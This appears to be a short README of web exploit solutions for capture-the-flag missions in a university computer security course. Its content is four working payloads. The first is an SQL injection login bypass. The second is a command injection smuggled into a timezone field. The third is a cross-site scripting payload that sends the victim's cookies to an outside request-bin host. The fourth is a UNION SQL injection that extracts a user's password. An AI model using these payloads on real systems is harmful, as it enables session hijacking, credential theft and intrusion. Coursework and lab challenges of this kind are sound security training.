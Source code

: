 # WEB
### Flags captured Computer Security Course held by Prof. Barenghi @ PoliMi
### Time-Based Blind SQL Injection Attack And QrCode SqlInjection are available in ipynb format

## First Exploit - Mission 1: 
```sql
dasda' oR '1'='1;--
```

## Second exploit - Mission 2:
```bash
"Europe/Rome" && flag && echo < 'emily'
```

## Third exploit - Mission 3: Central Lyrics
```url
<script>fetch("https://en5tc1p4vx7hf.x.pipedream.net/"%2Bdocument.cookie)</script>
```
## Sixth exploit - Mission 6: Do ut des
```url

https://web6.chall.necst.it/menu.php?choice=' UNION SELECT NULL,password,3 FROM users WHERE username ='Ramon' --
```

